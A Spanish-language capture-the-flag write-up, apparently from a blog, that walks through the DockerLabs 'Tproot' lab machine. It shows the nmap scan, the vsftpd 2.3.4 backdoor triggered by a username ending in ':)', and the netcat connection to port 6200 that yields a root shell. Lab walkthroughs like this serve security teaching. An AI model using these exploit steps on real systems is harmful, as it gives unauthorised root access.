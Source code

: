 ```yaml
---
title: Tproot - DockerLabs
categories: [ Linux ]
tags: [DockerLabs]
---
```


<img src="/assets/img/DLabs/tproot.png">

Hoy explotaremos la máquina *Tproot* de [DockerLabs](https://dockerlabs.es/), de dificultad Muy Fácil. Nos aprovecharemos de una vulnerabilidad en *vsftpd* en una versión sin parche.

## Desplegamos la máquina

```bash
➤ sudo bash auto_deploy.sh tproot.tar
[sudo] contraseña para nmc:     

	                    ##        .         
	              ## ## ##       ==         
	           ## ## ## ##      ===         
	       /""""""""""""""""\___/ ===       
	  ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
	       \______ o          __/           
	         \    \        __/            
	          \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____   
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__   
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___]  
                                         
				     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```



## Escaneo NMAP

Antes que nada, deberemos hacer un escaneo de puertos con **nmap** para encontrar los puertos abiertos y qué servicios corren en ellos.

```bash
➤ nmap -sV -p- --min-rate=100 -T4 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-17 15:11 CST
Nmap scan report for 172.17.0.2
Host is up (0.00012s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.69 seconds
```



Nos percatamos de que está abierto el puerto **21** con el servicio **FTP**, que utiliza la versión *vsftpd 2.3.4.* Esta versión de vsftpd tiene una vulnerabilidad tipo backdoor que se activa cuando se introducen usuarios con ":)". Al hacerlo, se abre una *shell* en el puerto **6200**, permitiendo acceso remoto al sistema.

## Conexión mediante Telnet y Netcat

Nos conectamos con Telnet al puerto 21 y aprovechamos la vulnerabilidad para ingresar sin necesidad de autenticación, usando los comandos:
***USER test:)
***PASS test

```bash
➤ telnet 172.17.0.2 21
Trying 172.17.0.2...
Connected to 172.17.0.2.
Escape character is '^]'.
220 (vsFTPd 2.3.4)
USER test:)
331 Please specify the password.
PASS test
```



Ponemos a escuchar netcat en el puerto 6200 e intentamos ejecutar el comando *whoami*.

```bash
➤ nc 172.17.0.2 6200
whoami
root
```



## Acceso ROOT obtenido

¡Máquina comprometida! Te deseo un feliz hackeo.
